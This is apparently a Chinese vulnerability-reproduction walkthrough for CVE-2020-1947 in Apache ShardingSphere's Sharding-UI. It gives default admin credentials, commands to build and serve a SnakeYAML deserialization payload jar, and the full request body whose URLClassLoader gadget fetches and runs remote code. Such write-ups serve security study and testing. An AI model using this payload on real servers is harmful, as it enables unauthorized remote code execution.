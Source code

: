 （CVE-2020-1947）Apache ShardingSphere远程代码执行漏洞
======================================================

一、漏洞简介
------------

二、漏洞影响
------------

Apache ShardingSphere \< 4.0.1

三、复现过程
------------

Sharding-UI的默认密码为admin/admin

![](resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId24.png)

顺带一提，在`conf/application.properties`中存储了WEB端的端口和账号密码。

![](resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId25.png)

### 安装Zookeeper

要想成功利用，需要先在Sharding-UI中添加一个注册中心，否则在后续利用中会提示`No activated registry center!`，所以需要搭建一个Zookeeper。
这里直接使用docker搭建Zookeeper，并且将2181端口映射出来到本地的2181端口。

    docker pull zookeeper
    docker run --privileged=true -d --name zookeeper --publish 2181:2181  -d zookeeper:latest

### 配置registry-center

在Sharding-UI的registry-center模块配置Zookeeper的地址。

![](resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId28.png)

成功连接即可。

![](resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId29.png)

### 生成payload

使用SnakeYAML反序列化小工具： https://github.com/ianxtianxt/yaml-payload
修改`src/artsploit/AwesomeScriptEngineFactory.java`文件，设置为弹出计算器。

![](resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId31.png)

编译生成jar包：

    javac src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .

然后使用python本地搭建HTTPServer，等待连接。

    python -m SimpleHTTPServer 90

### 代码执行

在web端的Rule Config------\>Add Schema处加入YAML代码并提交。

![](resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId33.png)

数据包正文：

    {"name":"test","ruleConfiguration":"encryptors:\n    <encryptor-name>:\n      type: MD5\n      props:","dataSourceConfiguration":"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://localhost:90/yaml-payload.jar\"]]]]"}

发送即可成功弹出计算器。

![](resource/(CVE-2020-1947)ApacheShardingSphere远程代码执行漏洞/media/rId34.png)

